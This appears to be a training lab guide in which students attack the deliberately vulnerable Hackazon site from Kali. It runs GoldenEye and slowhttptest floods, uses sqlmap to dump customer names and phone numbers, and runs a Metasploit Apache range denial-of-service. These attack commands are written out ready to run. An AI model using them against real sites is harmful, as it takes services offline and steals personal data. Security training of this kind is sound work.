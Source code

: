 Attack Unprotected Web App
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  Tasks in red performed on Kali host

-  Tasks in blue performed on Hackazon

1. Open a putty session to the Kali server and Hackazon server

2. Verify site availability and capture server stats

   a. Browse http://hackazon.f5agility.com

   b. (Hackazon) View server base stats

      i.   # free -m

      ii.  # pgrep httpd \| wc -l

      iii. # top

   c. Open BIG-IP Dashboard

3. Attack via GoldenEye

   a. (Kali) Browse to GoldenEye directory and execute attack.

      i.  # cd /root/Agility/GoldenEye

      ii. # ./goldeneye.py http://hackazon.f5agility.com -d -w 50 -s 200

   b. Is site available?

      i. http://hackazon.f5agility.com

   c. (Hackazon) Observe impact

      i.  # top

      ii. # free -m

   d. (Kali) Stop attack

      i. <Ctrl>+C

4. Verify test site availability

   a. http://hackazon.f5agility.com

   b. If site unavailable, restart web service on Hackazon host

      i. # /etc/init.d/apache2 restart

5. Attack via SLOWHTTPTEST

   a. (Kali) Browse to slowhttptest directory and execute attack

      i.  # cd /root/Agility/slowhttptest

      ii. |image6|\ # slowhttptest -c 1000 -H -g -o
          slowloris\_stats\_lab1 -i 10 -r 200 -s 8192 -t GET -u
          http://hackazon.f5agility.com -x 24 -p 3

   b. Is site available?

   c. (Hackazon) Observe impact

      i.  # top

      ii. # free -m

   d. (Kali) Stop Attack

      i. <Ctrl>+C

   e. (Hackazon) Restart web services

      i. # /etc/init.d/httpd restart

6. Attack via SQLMap

   a. To begin we’ll need to browse the site for a URL that looks
      injectable, like this one:

      i. http://hackazon.f5agility.com/product/view?id=51

   b. (Kali) Determine database type

      i.   |image7|\ # sqlmap -u
           http://hackazon.f5agility.com/product/view?id=51 --dbs

      ii.  Select ‘C’

      iii. |image8|\ DB identified as ‘MySQL’, Select ‘Y’, then ‘Y’

   c. (Kali) Determine Table Names

      i.  |image9|\ Choose a discovered Database and query for table

      ii. |image10|\ # sqlmap -u
          http://hackazon.f5agility.com/product/view?id=51 -D hackazon
          --tables

   d. Now for the columns

      i. sqlmap -u http://hackazon.f5agility.com/product/view?id=51 -D
         hackazon -T tbl\_customer\_address --columns

   e. |image11|\ And finally…lets extract some data

      i. sqlmap -u http://hackazon.f5agility.com/product/view?id=51 -D
         hackazon -T tbl\_customer\_address -C full\_name,phone,zip
         --dump

   f. Did these attacks bring the site offfline?

7. (Optional) Attack via Metasploit

   a. (Kali) Open Metasploit console

      i. # msfconsole

   b. (Kali) Port scan the vulnerable host

      i. msf > nmap -sS -A hackazon.f5agility.com

    |image12|

a. Search for an exploit

   i. Take information provided above and find an exploit/CVE!

b. (Kali) Configure exploit (example)

   i.   msf > use auxiliary/dos/http/apache\_range\_dos

   ii.  msf auxiliary(apache\_range\_dos) > show options

   iii. set RHOSTS 10.128.20.210

c. (Kali) Attack!

   i. msf > run

d. Is site available?

e. (Hackazon) Observe impact

   i.  # top

   ii. # free –m

f. Stop attack

g. # /etc/init.d/httpd restart

